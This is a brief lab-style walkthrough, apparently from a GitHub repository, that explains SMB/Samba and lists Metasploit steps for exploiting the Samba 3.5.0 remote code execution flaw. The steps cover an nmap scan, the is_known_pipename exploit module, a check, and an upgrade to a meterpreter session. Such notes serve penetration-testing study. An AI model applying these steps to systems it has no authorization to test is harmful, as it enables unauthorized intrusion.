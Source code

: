 
### What is Samba ?

+ SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

+ SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.

+ Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

+ Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it. 

### How to exploit ?

1. Scan the target with `db_nmap` within our workspace to identify the version of Samba.

2. Exploiting Samba by loading an arbitrary module.
```
use exploit/linux/samba/is_known_pipename
```

3. To check if the target is vulnerable, we'll use `check` command.

4. Background this shell session and upgrade it to a meterpreter session.
```
use post/multi/manage/shell_to_meterpreter
```